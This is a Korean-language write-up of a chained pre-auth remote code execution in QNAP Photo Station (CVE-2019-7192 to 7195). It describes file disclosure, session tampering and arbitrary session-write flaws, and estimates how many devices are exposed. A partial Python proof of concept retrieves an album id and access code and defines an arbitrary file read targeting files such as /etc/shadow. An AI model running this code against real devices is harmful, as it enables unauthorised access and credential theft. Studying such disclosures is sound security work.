

# QNAP Pre-Auth Root RCE (CVE-2019-7192 ~ CVE-2019-7195)
* Date : May 2019
* Credit : [CyCraft](https://cycrafttechnology.medium.com/)
* CVSS : [9.8](https://nvd.nist.gov/vuln/detail/CVE-2019-7192)
* Affected Versions : QNAP NAS devices running Photo Station (6.0.3, 5.2.11, 5.4.9)

## Description
본 익스플로잇은 다음의 3가지 취약점을 연결하여 트리거할 수 있다. QNAP PSIRT 팀의 요청으로 인해 민감한 내용들은 모두 삭제되어 자세한 정보는 확인할 수 없었다. 

### Vulnerability 1 : Pre-Auth Local File Disclosure to Privilege Escalation
인증을 통과하지 않고도 QNAP 서버의 파일을 읽을 수 있는 취약점이다. 그중에서 `login token`을 포함하는 파일(e.g., /etc/passwd, /ect/shadow)을 읽어서 유효한 사용자 인증 토큰을 획득하여 정상적으로 로그인할 수 있다. 대부분의 파일들은 암호화되어 있는데 PhotoStation 기능에서는 해당 패스워드 정보를 평문으로 캐시에 저장한다. 해당 캐시 파일을 읽으면 `appuser` 권한으로 로그인할 수 있다.

### Vulnerability 2 : Authenticated Session Tampering — Writing PHP Code to Session
`appuser` 권한으로 로그인하면 SMTP 설정에 접근할 수 있다. 해당 설정을 통해 기존 이메일 문자열 검증 루틴을 해제할 수 있고, 이를 통해 Vulnerability 3(웹쉘 업로드)와 연결하여 RCE를 획득할 수 있다.

### Vulnerability 3 : (Pre-Auth) Writing Session to Arbitrary Location
해당 취약점을 이용하면 인증받지 않은 사용자가 QNAP 서버의 임의의 경로에 세션 정보를 저장할 수 있다. 이를 이용하여 PhotoStation 웹 디렉토리에 임의의 세션 정보를 저장하여 웹쉘 파일을 업로드할 수 있고 결국 RCE 권한을 획득하게 된다.

## PoC
```python
# hide ssl error
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_file_content(file):
    post_data = {'album': album_id, 'a': 'caption', 'ac': access_code, 'f': 'UMGObv', 'filename': file}
    file_read_response = req.post(url + "/photo/p/api/video.php", data=post_data, headers=headers, verify=False, timeout=10)

    print("="*65) ; print("{0} file content;\n{1}" .format(file,file_read_response.text))

url = sys.argv[1].rstrip('/')
headers = {"User-Agent": "Gundy - QNAP RCE"}

# for session cookie
req = requests.Session()

#######################################################################
# search album_id

print("="*65)
post_data = {'a': 'setSlideshow', 'f': 'qsamplealbum'}
album_id_response = req.post(url + "/photo/p/api/album.php", data=post_data, headers=headers, verify=False, timeout=10)

if album_id_response.status_code != 200:
    print("album id not found \n\033[91mnot vulnerable\033[0m")
    sys.exit(0)
    
album_id = re.search('(?<=<output>).*?(?=</output>)', album_id_response.text).group()

print("album_id     ==>  " + album_id)

#######################################################################
# search $_SESSION['access_code'] 

access_code_response = req.get(url + "/photo/slideshow.php?album=" + album_id, headers=headers, verify=False, timeout=10)
if access_code_response.status_code != 200:
    print("slideshow not found \n\033[91mnot vulnerable\033[0m")
    sys.exit(0)
    
access_code = re.search("(?<=encodeURIComponent\\(').*?(?=')", access_code_response.text).group()

print("access_code  ==>  " + access_code)
```

## Impact
  
쇼단 서비스를 이용해 전 세계적으로 564,000개의 QNAP 서버를 식별할 수 있었고, 임의로 추출한 1065 표본에서 590개가 Photo Station 기능이 활성화되어 있었다. 통계학적으로 신뢰도 95%로 계산한 결과 대략적으로 312,000개의 기기가 취약한 것으로 보인다.


## Reference
- [CyCraft Writeup](https://cycrafttechnology.medium.com/qnap-pre-auth-root-rce-affecting-312k-devices-on-the-internet-fc8af285622e)
- [QNAP's Security Advisory](https://www.qnap.com/zh-tw/security-advisory/nas-201911-25)